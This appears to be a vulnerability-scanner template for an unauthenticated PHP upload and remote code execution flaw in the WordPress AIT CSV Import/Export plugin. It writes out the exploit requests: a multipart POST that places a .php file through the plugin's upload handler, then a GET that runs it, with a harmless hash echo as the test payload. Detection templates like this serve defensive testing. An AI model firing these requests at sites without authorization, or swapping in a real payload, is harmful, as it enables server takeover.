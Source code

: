 **Type - status**
- status
    1. 200

---
# WordPress AIT CSV Import Export - Unauthenticated Remote Code Execution
## Description
- The AIT CSV Import/Export plugin \<= 3.0.3 allows unauthenticated remote attackers to upload and execute arbitrary PHP code. The upload-handler does not require authentication, nor validates the uploaded content.

- severity - critical
- tags - wp-plugin,rce,fileupload,unauth,wpscan,msf,wordpress,ait-csv,wp,intrusive
## Requests
### Step - 1
```
POST /wp-content/plugins/ait-csv-import-export/admin/upload-handler.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: multipart/form-data; boundary=------------------------ab360007dbae2de8

--------------------------ab360007dbae2de8
Content-Disposition: form-data; name="file"; filename="{{randstr}}.php"
Content-Type: application/octet-stream

sep=;<?php echo md5('ait-csv-import-export-rce');?>

--------------------------ab360007dbae2de8--

```
### Step - 2
```
GET /wp-content/uploads/{{randstr}}.php HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. fe394b60dc324c3bac3060d600ad4349

**Type - status**
- status
    1. 200

---